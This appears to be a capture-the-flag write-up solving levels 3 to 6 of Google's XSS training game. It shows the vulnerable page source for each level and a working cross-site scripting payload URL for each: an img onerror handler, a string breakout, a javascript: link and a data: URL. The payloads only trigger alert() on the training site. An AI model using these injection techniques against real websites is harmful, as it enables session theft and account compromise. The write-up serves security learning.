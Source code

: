 ```yaml
---
title: Google_Game
author: ch4ser
date: 2019-06-12 19:41:56
typora-root-url: ../
categories:
  - CTF
---
```


# Google Xss game

<!--more-->

### Level 3

![image-20211114141306312](image-20211114141306312.png)

This website provides some API (after the arch pointer).

solution:

```https://xss-game.appspot.com/level3/frame#<img src='foo' onerror=alert();>```

### level 4

![image-20211114141313076](image-20211114141313076.png)



```javascript
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <script>
      function startTimer(seconds) {
        seconds = parseInt(seconds) || 3;
        setTimeout(function() { 
          window.confirm("Time is up!");
          window.history.back();
        }, seconds * 1000);
      }
    </script>
  </head>
  <body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
  </body>
</html>
```

solution:

```
https://xss-game.appspot.com/level4/frame?timer=');alert('
```



### level 5

![image-20211114141321457](image-20211114141321457.png)



```html
<!--signup.html-->
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```

solution: 

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('xss')
```

and click the ``Next`` button.

### level 6

![image-20211114141329514](image-20211114141329514.png)

This website allow user to execute alternative js script

solution:

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

